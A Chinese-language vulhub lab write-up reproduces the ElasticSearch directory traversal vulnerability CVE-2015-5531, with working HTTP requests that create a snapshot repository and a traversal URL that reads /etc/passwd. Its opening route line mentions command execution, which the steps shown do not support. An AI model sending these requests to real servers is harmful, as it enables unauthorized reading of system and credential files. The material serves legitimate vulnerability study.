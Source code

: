# ElasticSearch 目录穿越漏洞（CVE-2015-5531）

###### by ADummy

### 0x00利用路线

​			Burpsuite抓包--->java代码放入json--->有回显命令执行

### 0x01漏洞介绍

​			**说明：**

**elasticsearch 1.5.1及以前，无需任何配置即可触发该漏洞。之后的新版，配置文件elasticsearch.yml中必须存在`path.repo`，该配置值为一个目录，且该目录必须可写，等于限制了备份仓库的根位置。不配置该值，默认不启动这个功能**。

```
jre版本：openjdk:8-jre

elasticsearch版本：v1.6.0

影响版本：1.6.1以下
```

### 0x02漏洞复现

新建一个仓库

```
PUT /_snapshot/test HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test" 
    }
}
```

![ElasticSearch_目录穿越漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ElasticSearch_目录穿越漏洞_1.jpg)



新建一个快照

```
PUT /_snapshot/test2 HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test/snapshot-backdata" 
    }
}
```

![ElasticSearch_目录穿越漏洞_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ElasticSearch_目录穿越漏洞_2.jpg)



访问http://your-ip:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd

目录穿越导致任意读取文件

![ElasticSearch_目录穿越漏洞_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ElasticSearch_目录穿越漏洞_3.jpg)

可以用工具进行转换，或者直接使用Chrome-右键-检查-Console，输入**String.fromCharCode(ASCII码)**，执行结果如下：

![ElasticSearch_目录穿越漏洞_4](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ElasticSearch_目录穿越漏洞_4.jpg)



### 0x03参考资料

https://www.cnblogs.com/qianxiao996/p/13574645.html

